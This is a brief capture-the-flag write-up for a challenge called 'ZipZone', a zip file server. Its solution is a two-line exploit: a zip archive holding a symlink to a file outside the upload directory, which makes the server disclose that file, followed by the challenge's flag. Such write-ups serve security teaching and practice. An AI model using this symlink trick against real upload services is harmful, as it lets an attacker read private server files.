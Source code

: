 # ZipZone
Solved by **yappare**

## Question
I was tired of trying to find a good file server for zip files, so I made my own! It's still a work in progress, but I think it's pretty good so far.

## Solution

```
ln -s ../../../tmp/flag.txt itik
 zip --symlinks itik.zip itik
 ```
- then upload itik.zip
- download the file from the provided UUID 
- got flag

### Flag
`CSCTF{5yml1nk5_4r3_w31rd}``

